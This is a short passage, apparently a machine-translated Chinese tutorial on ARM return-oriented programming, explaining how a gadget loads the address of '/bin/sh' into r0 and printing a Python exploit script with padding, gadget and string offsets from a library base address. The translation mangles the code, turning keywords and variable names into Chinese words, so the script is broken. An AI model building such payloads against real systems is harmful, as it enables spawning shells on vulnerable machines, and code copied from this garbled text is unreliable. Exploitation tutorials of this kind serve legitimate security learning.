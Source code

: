 *好了…现在它将 sp+4 中的值加载到 r0 寄存器中。sp+4 是堆栈顶部的第二个值。*

> *sp = 0xbefff210*
> 
> *sp+4 = 0x beff 214*

*现在 sp+4 保存值 2，所以如果我们做一个 si，r0 将变成 2*

*![](img/b19602a0e52316b39907f030f90a0c80.png)*

*但我们要做的是将字符串“/bin/sh”的地址加载到 r0。为此，我们需要在漏洞中提供字符串的地址。类似地，我们必须将偏移量添加到基地址中*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x11db20) #/bin/sh string*
> 
> *印刷品(垃圾+小配件 1+垃圾 1+垃圾箱)*

*所以这是修改后的漏洞利用…你们可能想知道为什么有一个“AAAA”的 junk1。再看一下这个小工具，它从 sp+4 加载值，对吗？因此，如果 a 在 gadget1 之后提供值，它将位于堆栈的顶部，即 sp 中。但是在我们的例子中，我们需要 sp+4 中的值，因为我们的小工具只将 sp+4 中的值加载到 r0。*
